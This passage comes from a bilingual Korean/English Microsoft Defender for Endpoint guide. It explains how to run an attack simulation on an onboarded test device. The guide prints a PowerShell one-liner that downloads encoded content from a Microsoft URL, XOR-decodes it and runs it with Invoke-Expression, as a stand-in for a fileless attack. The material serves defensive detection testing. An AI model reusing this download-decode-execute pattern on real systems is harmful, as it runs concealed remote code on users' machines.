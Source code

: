    1. <span data-ttu-id="b5b7b-146">테스트 장치가 [끝점용 Microsoft Defender에 온보딩된지 확인합니다.](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="b5b7b-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="b5b7b-147">기존 테넌트를 사용하여 장치 그룹을 구현하는 경우 테스트 장치에 대한 전용 장치 그룹을 만들고 구성 UX에서 최상위 수준으로 푸시합니다.</span><span class="sxs-lookup"><span data-stu-id="b5b7b-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="b5b7b-148">공격 시나리오 시뮬레이션 실행</span><span class="sxs-lookup"><span data-stu-id="b5b7b-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="b5b7b-149">공격 시나리오 시뮬레이션을 실행합니다.</span><span class="sxs-lookup"><span data-stu-id="b5b7b-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="b5b7b-150">테스트 사용자 계정을 사용하여 테스트 장치에 로그인합니다.</span><span class="sxs-lookup"><span data-stu-id="b5b7b-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="b5b7b-151">테스트 Windows PowerShell 창을 열 수 있습니다.</span><span class="sxs-lookup"><span data-stu-id="b5b7b-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="b5b7b-152">다음 시뮬레이션 스크립트를 복사합니다.</span><span class="sxs-lookup"><span data-stu-id="b5b7b-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="b5b7b-153">웹 브라우저에서 이 문서를 열면 특정 문자를 잃거나 추가 줄 변경 없이 전체 텍스트를 복사하는 데 문제가 발생할 수 있습니다.</span><span class="sxs-lookup"><span data-stu-id="b5b7b-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="b5b7b-154">이 문서를 다운로드하여 Adobe Reader에서 여는 경우</span><span class="sxs-lookup"><span data-stu-id="b5b7b-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="b5b7b-155">프롬프트에서 복사한 스크립트를 붙여넣고 실행합니다.</span><span class="sxs-lookup"><span data-stu-id="b5b7b-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="b5b7b-156">RDP(원격 데스크톱 프로토콜)를 사용하여 PowerShell을 실행하는 경우 **CTRL-V** 바로 가기 키 또는 마우스 오른쪽 단추 클릭 붙여넣기 메서드가 작동하지 않을 수 있기 때문에 RDP 클라이언트에서 클립보드 텍스트 형식 명령을 사용합니다.</span><span class="sxs-lookup"><span data-stu-id="b5b7b-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="b5b7b-157">최신 버전의 PowerShell에서도 이 메서드를 허용하지 않는 경우도 있습니다. 메모리의 메모장에 먼저 복사하여 가상 머신에 복사한 다음 PowerShell에 붙여넣아야 할 수 있습니다.</span><span class="sxs-lookup"><span data-stu-id="b5b7b-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>
